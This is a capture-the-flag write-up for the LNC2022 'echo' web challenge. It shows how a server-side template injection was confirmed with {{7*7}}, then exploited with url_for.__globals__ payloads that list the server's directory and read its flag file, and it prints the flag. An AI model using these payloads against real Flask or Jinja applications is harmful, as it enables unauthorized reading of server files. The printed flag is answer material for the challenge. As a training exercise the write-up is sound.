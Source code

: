 # echo

---

## Challenge Description 
My website keeps repeating what I input. How can I make it stop.

`nc c2.lagncrash.com 8001`

---

## Challenge Solution
Firstly, I used the command given to netcat into the server and then accessed the link.
```
[spawner] Spinning up new instance of:
[spawner]     Echo
[spawner]
[spawner] Access your challenge at:
[spawner]     http://c2.lagncrash.com:11901/
[spawner]
[spawner] ------------------------- NOTE --------------------------
[spawner] Hit [Enter] to destroy your challenge instance once done!
```

Visiting the link, we will see the following webpage with an input and submit button.

![Screenshot 2022-03-28 010416](https://user-images.githubusercontent.com/101789488/160292400-df68b164-3290-43a8-b167-c8f6310cff80.png)

After testing, we would know that the Echo Server takes the user input and displays it on the screen. As such, I want to try and get the server to display some information such as the flag. Since previous challenges made use of the [Server Side Template Injection (SSTI)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) vulnerability, so I tested for that using the following payload:
```
{{7*7}}
```

Submitting the input gave us the result we wanted:
```
49
```

After finding the SSTI vulnerability, I tried a method I learnt from the `Outline - Task 2` challenge. This method was to list all the directories and see if I could retrieve the flag from any of the files. To do this, I used the following payload:
```
{{url_for.__globals__.os.__dict__.listdir('./')}}
```

After submitting the payload, the program displayed the following back to us:
```
['Dockerfile', 'main.py', 'requirements.txt', 'flag', '__pycache__']
```

From the results, we can see that there is a file named `flag` and we want to display that on the screen. As such, I used the following payload:
```
{{url_for.__globals__.__builtins__.open('flag').read()}}
```

Just like that, we were able to display the flag on the screen.

![Screenshot 2022-03-28 010327](https://user-images.githubusercontent.com/101789488/160292368-d4df4ec1-5521-4949-9c59-26bd62b129e9.png)
```
LNC2022{s3rv3r_s1d3_t3mplAte_Inj3ct10n_i5_fUn}
```